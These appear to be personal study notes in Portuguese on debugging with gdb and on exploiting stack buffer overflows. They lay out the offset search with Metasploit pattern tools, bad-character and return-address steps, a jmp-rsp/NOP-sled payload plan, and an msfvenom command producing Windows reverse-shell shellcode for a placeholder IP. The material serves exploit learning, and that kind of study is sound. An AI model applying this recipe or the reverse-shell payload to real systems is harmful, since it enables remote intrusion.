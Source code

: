 #### gdb tui
gdb com interface
```
gdb ./teste -tui
```

mostra as informações dos registradores/assembly no layout
```
layout <asm|regs>
```


## buffer overflow

passos para conseguir uma shell com BOF
1. descobrir se o programa é vulneravel a BOF
2. encontrar a quantidade certa de bytes para atingir EIP
3. testar o controle do EIP
4. testar bad characters (bad chars)
5. encontra um bom endereço de retorno
6. gerar shellcode
7. conseguir shell

Em C procurar por funções `scanf`, `gets` e `strcpy`

**shellcode**
1. coleta de informações (identificar o software e entender como funciona a comunicação)
2. fuzzing (enviar diversos tipos de dados a fim de testar o comportamento do software)
3. identificar a vulnerabilidade (atingir EIP)
4. controlar EIP (validar espaços)
5. identificar badchars
6. identificar o endereço de retorno
7. testar a execução
8. gerar shellcode
9. exploit final



**offset**
**busca manual:** fazemos um "busca binária", testando quantos bytes precisamos enviar para que a aplicação pare de funcionar

**busca automatizada:**  
```
/usr/bin/msf-pattern_create -l <length> 
/usr/bin/msf-pattern_offset -l <length> -q <4_bytes_HEX> # hex sem o 0x

# exemplo particular
/usr/bin/msf-pattern_create -l 2200 # gera payload de 2200 bytes
/usr/bin/msf-pattern_offset -l 2200 -q 43396f43 # 43396f43 são os dados que crasharam o programa
```


**payload**
Overwrite the return address with a “jmp rsp” (specially if any library doesn’t have ASLR), and then overwrite the RSP space, which comes right after the return in the stack, with some nopsledges and the shell code.
Shell code generation:
```
msfvenom -p windows/shell_reverse_tcp lhost=<ip> lport=<port> exitfunc=thread -b <badchars|'\0x00'> -f <c|python>
```
